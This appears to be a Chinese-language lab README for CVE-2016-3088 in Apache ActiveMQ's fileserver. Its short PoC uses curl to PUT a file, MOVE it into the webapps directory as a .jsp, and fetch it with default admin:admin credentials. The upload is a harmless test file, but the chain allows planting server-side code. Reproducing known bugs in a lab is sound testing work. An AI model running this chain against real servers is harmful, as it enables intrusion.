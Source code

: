 ## CVE-2016-3088 - PUT + MOVE file:// 漏洞

测试镜像

* src/activemq/5.13.0/

影响版本

* 5.0.0 - 5.13.x

参考文档

* [CVE-2016-3088 - ActiveMQ Fileserver web application vulnerabilities](http://activemq.apache.org/security-advisories.data/CVE-2016-3088-announcement.txt)

Poc

```
#创建测试文件
echo hello world > 123.txt

# 上传文件
curl -vv http://127.0.0.1/fileserver/123.txt -XPUT --data @123.txt

# 改名，需要知道绝对路径
curl -vv -X MOVE --header 'Destination: file:///activemq/webapps/123.jsp' 'http://127.0.0.1/fileserver/123.txt'

# 访问
curl --user admin:admin 'http://127.0.0.1/123.jsp'
```

